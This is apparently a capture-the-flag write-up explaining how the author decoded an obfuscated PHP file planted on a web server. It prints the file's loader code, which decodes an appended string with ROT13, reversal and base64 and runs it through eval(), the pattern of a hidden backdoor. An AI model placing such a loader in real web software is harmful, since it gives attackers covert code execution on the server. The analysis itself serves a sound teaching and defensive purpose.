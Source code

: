 # Zerion

## We observed some odd network traffic, and found this file on our web server... can you find the strange domains that our systems are reaching out to?

A file is attached to the challenge.

---


First download the file

What is this file ? I opened with VSCode and fount out it's a PHP file with a very long string after the code (let's name it `VeryLongString` for readability).


![Alt text](image.png)


VeryLongString start with "==", Base64 always ends with that so we have a small hint that the long string is probably reversed. We need to confirm that but let's keep it for later.


### Very basic code analysis

This isn't very readable but it's probably made on purpose to scare us, let's beautify it a little.

```php

<?php 

$L66Rgr=explode(base64_decode("Pz4="),file_get_contents(__FILE__)); 

$L6CRgr=array(base64_decode("L3gvaQ=="),base64_decode("eA=="),base64_decode(strrev(str_rot13($L66Rgr[1]))));

$L7CRgr = "d6d666e70e43a3aeaec1be01341d9f9d";

preg_replace($L6CRgr[0],serialize(eval($L6CRgr[2])),$L6CRgr[1]);exit();

?>


```



First line is a variable. Reading the php doc about `explode()` I know that it returns an array. In this case it's an array containing a decoded Base64 String on first position and VeryLongString on the second position.

So basically, the first line is: 

```php 
$L66Rgr=explode(['<?', 'VeryLongString'])
```

Second line is another variable. It is also an array containing 3 Strings. The 2 first ones are also decoded Base64 but the last one is very interesting.

Basically the 3rd String is a succession of manipulations on the VeryLongString that is contained in the first array.

1. First it applies `str_rot13()` which is a Caesar cipher, you just replace each letter by the one 13 steps after it in the alphabet. (example: a=n)
2. After that it applies `strrev()` which is just reverses the String (confirmation of the hint found earlier)
3. Finally it decodes the base64

Let's do it!


After doing all the operations on `VeryLongString` we find out it's another php file. 

Doing a basic research (CTRL+F) in the file we can find the flag! 


![Alt text](image-1.png)
